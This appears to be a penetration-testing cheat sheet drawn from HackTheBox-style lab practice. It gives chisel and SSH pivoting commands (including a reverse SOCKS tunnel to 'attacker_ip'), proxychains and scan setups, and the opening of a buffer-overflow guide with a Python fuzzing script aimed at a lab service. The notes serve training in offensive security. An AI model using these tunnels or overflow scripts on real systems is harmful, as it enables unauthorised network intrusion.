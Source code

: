 Pivot

Chisel :

1 ################################# Attacker Machine ########################
2
3 ./chisel server -p 8080 --reverse
4
5 #################################### Pivot Machine ########################
6
7 chisel.exe client attacker_ip:8080 R:socks
8
9 ############################### Proxychains.conf ##########################
10
11 socks5 127.0.0.1 1080
12
13 ################################## Nmap Scan ##############################
14
15 Always better to transfer binaries and scan from the pivot
16
17 nmap.exe -sC -sV 10.10.10.10 -Pn -T5 // From Pivot machine
18
19 proxychains nmap 10.10.10.10 -T5 -Pn -sT // From Kali Machine
20
21 ################################### Gobuster ##############################
22
23 gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/direct

Pivot via SSH key (HTB Nibbles)
ssh -i root.key -L9000:web_ip:port ssh_ip
Ex : ssh -i root.key -L9000:10.10.10.75:80 10.10.10.73

Pivot via root password (HTB Sense)

ssh -D1080 pivot_ip
Burp -> user options -> socks proxy -> use socks proxy
vi /etc/proxychains.conf
Change socks4(metasploit) to socks5(ssh)

proxychains curl -k https://10.10.10.60 [ -k to ignore SSL]

Buffer Overflows

Steps :
1. Fuzzing
2. Finding the Offset
3. Overwriting the EIP
4. Finding Bad Characters
5. Finding the JMP ESP address
. Exploiting the System

1. Fuzzing

1 #!/usr/bin/python
2 # -*- coding: utf-8 -*-
3 #!/usr/bin/python
4
5 import sys, socket
6
7 buffer = "\x41" * 3000
8
9 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
10 s.connect(('10.0.0.71', 9999))
11 s.send(('TRUN /.:/' + buffer))
12 s.recv(1024)
13 s.close()
14
